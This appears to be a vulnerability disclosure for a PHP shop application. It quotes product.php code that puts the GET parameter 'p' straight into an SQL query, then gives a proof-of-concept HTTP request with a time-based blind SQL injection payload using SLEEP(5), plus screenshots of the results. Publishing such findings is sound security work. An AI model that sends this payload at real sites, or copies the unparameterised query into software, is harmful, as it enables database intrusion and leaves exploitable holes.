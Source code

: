### Vulnerability file address

`product.php` from line 60,The $product_id parameter is controllable, the parameter p can be passed through get, and the $product_id is not protected from sql injection, resulting in sql injection

```php
......
......
......
<?php 
include 'db.php';
$product_id = $_GET['p'];

$sql = " SELECT * FROM products ";
$sql = " SELECT * FROM products WHERE product_id = $product_id";
if (!$con) {
  die("Connection failed: " . mysqli_connect_error());
}
$result = mysqli_query($con, $sql);
......
......
......
```

### POC

```http
GET /product.php?p=1 AND (SELECT 9365 FROM (SELECT(SLEEP(5)))RcRq) HTTP/1.1
Host: www.onsp.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=acrlvk4ljcqdujn2orbd09in25
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20220729151216485](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220729151216.png)

![image-20220729150245763](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220729150245.png)